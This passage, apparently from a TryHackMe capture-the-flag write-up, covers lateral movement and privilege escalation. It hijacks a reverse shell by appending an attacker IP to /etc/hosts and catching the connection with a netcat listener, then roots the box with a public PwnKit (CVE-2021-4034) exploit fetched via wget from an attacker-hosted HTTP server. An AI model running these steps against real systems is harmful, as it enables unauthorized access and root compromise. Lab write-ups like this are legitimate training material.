 Which is a reverse shell that is connecting to `redrules.thm` on port `9001`. The IP address for `redrules.thm` was specified as `192.168.0.1` in the `/etc/hosts` file.

Let's check if we can write to `/etc/hosts` using the command: `ls -lah /etc/hosts`:

![4df412ac392ce528aae48be44fc1b71b.png](/resources/995a0f384a0942bcbff878e1d877733f.png)

We have permissions to write, so let's add our attacking machine's IP address to `redrules.thm` so when the user `red` runs the reverse shell command again, it will connect to our listener instead.

Using the command `echo "<ATTACKER_IP> redrules.thm" >> /etc/hosts` will append our entry to the end of the file.

Now we will open a new terminal and start a [Netcat](https://linux.die.net/man/1/nc) listener on port 9001 using the command: `nc -nvlp 9001`.

After a short while we should receive a connection from `red`. We can get the next flag using `cat /home/red/flag2`:

![68ba23ddeb26319bb87753ddf598cb1f.png](/resources/6039f99e94a44b4387d9c943b628c5a4.png)

### \[-] root\@red

Inside `/home/red` there is a hidden directory named "`.git`" which has a binary named `pkexec`:

![2614ce6036b17210301ee374f059681f.png](/resources/d06d2ce4d124412f96453d34d1fdb019.png)

It has the SUID bit set and we are able to execute it. [pkexec](https://linux.die.net/man/1/pkexec) is a [Policy Kit](https://linux.die.net/man/8/polkit) tool that allows a user to execute a program as another user.

First, let's check the version of `pkexec` by running `./pkexec --version`:

![80fe9bdf78ffeb4ed71c407213f20069.png](/resources/348faf691b314ef38ae20688957f0b70.png)

If we search for "pkexec 0.105" we will find that this version is vulnerable to the "PwnKit" exploit. There is also a [PwnKit room](https://tryhackme.com/r/room/pwnkit) on TryHackMe. I tried the exploit from that room, but I wasn't able to get it to work. Instead I used a Python variation of the PwnKit exploit by [Ahmad Almorabea](https://github.com/Almorabea/pkexec-exploit).

Before copying the exploit to the victim machine, we need to edit line 103 to point to the directory where `pkexec` is, which is `/home/red/.git/pkexec`.

Save the script, then start a Python HTTP server to host the exploit script using `python3 -m http.server 8080`.

Back on the victim machine, we download the exploit using `wget http://<ATTACKER_IP>:8080/CVE-2021-4034.py`.

When the script has been downloaded, we run it using `python3 CVE-2021-4034.py` then select `n` when prompted and we will have a root shell:

![c79218324d7ec1592a2b816e1a83ca3c.png](/resources/0731ec5a9f4b45b7bde431580cf5085d.png)

Finally, we can get the last flag by using the command `cat /root/flag3`:

![3e9e08c302bd0a0b2fcede8d68bc7a28.png](/resources/cd2e02a753c64802935c5ec94c55ad6c.png)
